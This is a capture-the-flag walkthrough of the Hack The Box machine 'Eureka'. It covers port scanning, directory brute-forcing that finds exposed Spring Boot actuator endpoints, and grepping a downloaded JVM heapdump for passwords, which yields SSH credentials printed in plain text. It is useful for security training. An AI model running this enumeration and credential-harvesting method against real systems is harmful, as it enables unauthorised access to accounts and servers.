 # HTB Eureka (Hard)


We get an ip and the first thing we do is nmap-scanning, we get:

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We begin with heading to the website as we know no ssh credentials: 

DNS Resolves to **furni.htb**:

<img width="1439" height="635" alt="Screenshot 2025-09-01 at 21 43 59" src="https://github.com/user-attachments/assets/41158031-5587-4781-b0f0-b34bebb78b1b" />

Running ```gobuster dir -u   http://furni.htb/ -w common.txt```, we get the following:

```
about                (Status: 200) [Size: 14351]
blog                 (Status: 200) [Size: 13568]
cart                 (Status: 302) [Size: 0] [--> http://furni.htb/login]
checkout             (Status: 302) [Size: 0] [--> http://furni.htb/login]
comment              (Status: 302) [Size: 0] [--> http://furni.htb/login]
contact              (Status: 200) [Size: 10738]
error                (Status: 500) [Size: 73]
register             (Status: 200) [Size: 9028]
services             (Status: 200) [Size: 14173]
shop                 (Status: 200) [Size: 12412]
```

By trying to to find a blog id that does not exist we see the following:
<img width="656" height="219" alt="Screenshot 2025-09-01 at 21 54 30" src="https://github.com/user-attachments/assets/96417df0-39c7-4fcd-8afc-0f50ad3765ea" />

After searching google we can see its the Java framework **Spring Boot**.

Using the wordlist **Java-Spring-Boot.txt** we can run: ```gobuster dir -u http://furni.htb/ -w Java-Spring-Boot.txt```, thus getting:

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
actuator             (Status: 200) [Size: 2129]
actuator/caches      (Status: 200) [Size: 20]
actuator/env         (Status: 200) [Size: 6307]
actuator/env/home    (Status: 200) [Size: 668]
actuator/env/lang    (Status: 200) [Size: 668]
actuator/env/path    (Status: 200) [Size: 668]
actuator/features    (Status: 200) [Size: 467]
actuator/health      (Status: 200) [Size: 15]
actuator/configprops (Status: 200) [Size: 37195]
actuator/conditions  (Status: 200) [Size: 184221]
actuator/info        (Status: 200) [Size: 2]
actuator/metrics     (Status: 200) [Size: 3356]
actuator/loggers     (Status: 200) [Size: 101730]
actuator/beans       (Status: 200) [Size: 202254]
actuator/scheduledtasks (Status: 200) [Size: 54]
actuator/mappings    (Status: 200) [Size: 35560]
actuator/refresh     (Status: 405) [Size: 114]
actuator/sessions    (Status: 400) [Size: 108]
actuator/threaddump  (Status: 200) [Size: 135456]
actuator/heapdump    (Status: 200) [Size: 80165337]
Progress: 174 / 174 (100.00%)
```

Being that **heapdump** is a snapshot in time of all memory within a JVM, we can gather som information using strings.

I run:```strings heapdump | grep -Eai "(secret|passwd|password)\ ?[=|:]\ ?['|\"]?\w{1,}['|\"]?"```, and get:

```{password=0sc@r190_S0l!dP@sswd, user=oscar190}!```

Jackpot. I use these credentials for the SSH port from the beginning.

In the home folder we see another user miranda, this is our next target.

```
oscar190@eureka:/home$ ls
miranda-wise  oscar190
```

These processes are relevant:

```
oscar190@eureka:/home$ ps aux | grep -v "^root" | grep SNAPSHOT
www-data     990  2.4  7.9 2838500 317152 ?      Sl   13:21  10:21 java -Xms100m -Xmx200m -XX:+UseG1GC -jar target/demo-0.0.1-SNAPSHOT.jar --spring.config.location=/var/www/web/Eureka-Server/src/main/resources/application.yaml
www-data    2927  0.5  8.9 2885240 357372 ?      Sl   13:22   2:27 java -Xms100m -Xmx200m -XX:+UseG1GC -jar target/Furni-0.0.1-SNAPSHOT.jar --spring.config.location=/var/www/web/user-management-service/src/main/resources/application.properties
www-data    2932  0.4  8.8 2886144 353956 ?      Sl   13:22   1:41 java -Xms100m -Xmx200m -XX:+UseG1GC -jar target/Furni-0.0.1-SNAPSHOT.jar --spring.config.location=/var/www/web/Furni/src/main/resources/application.properties
www-data    3959  0.3  7.6 2825896 303724 ?      Sl   13:22   1:34 java -Xms100m -Xmx200m -XX:+UseG1GC -jar target/demo-0.0.1-SNAPSHOT.jar --spring.config.location=/var/www/web/cloud-gateway/src/main/resources/application.yaml
```
